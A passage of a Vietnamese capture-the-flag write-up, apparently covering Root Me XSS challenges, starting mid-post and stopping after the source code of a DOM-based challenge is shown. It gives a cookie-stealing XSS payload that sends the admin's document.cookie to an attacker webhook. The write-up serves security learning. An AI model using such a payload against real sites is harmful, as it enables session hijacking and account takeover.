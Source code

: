 Nhưng ở chall này phần comment có thêm một thẻ `<i>` để xác định trạng thái của người post comment.

Thử đưa vào Burp suite để bắt request và phân tích xem status của em được xác định dựa vào đâu
    
![](https://i.imgur.com/qqCCjn6.png)

Vậy là status của em do cookie status quy định, giá trị của cookie này sẽ được thêm thẳng vào thẻ `<i>` trong DOM trả về. Dựa vào đây em có thể thực hiện tấn công XSS.


## Khai thác

Theo ý tưởng của chall trước em tiếp tục tạo ra payload để khi admin truy cập trang web dính lỗi XSS đó, trình duyệt của admin sẽ tự fetch đến webhook của em và kèm theo cookie của admin.

Payload: ```"><script>fetch(`[Link webhook]?cookie=${document.cookie}`)</script>```

![](https://i.imgur.com/DF61uRo.png)

Sau đó em qua Webhook chờ admin truy cập website để nhận được cookie của admin:

![](https://i.imgur.com/YVMH6N3.png)

Sử dụng cookie đó thêm vào request và lấy flag:

![](https://i.imgur.com/Hc6wcsr.png)

---

# Root Me/XSS - DOM Base Introduction

![](https://i.imgur.com/L31ekLg.png)

Link to chall: http://challenge01.root-me.org/web-client/ch32/

## Phân tích

Em truy cập website và bắt đầu tìm hiểu các tính năng của website, thấy website cho ta nhập 1 số rồi gửi. Sau khi test thử vài số bất kỳ thấy sai, dựa theo tên bài DOM based em `Ctrl U` để đọc source code và thấy đoạn script sau:

```javascript
var random = Math.random() * (99);
    var number = 'a';
    if(random == number) {
        document.getElementById('state').style.color = 'green';
        document.getElementById('state').innerHTML = 'You won this game but you don\'t have the flag ;)';
    }
    else{
        document.getElementById('state').style.color = 'red';
        document.getElementById('state').innerText = 'Sorry, wrong answer ! The right answer was ' + random;
    }
```
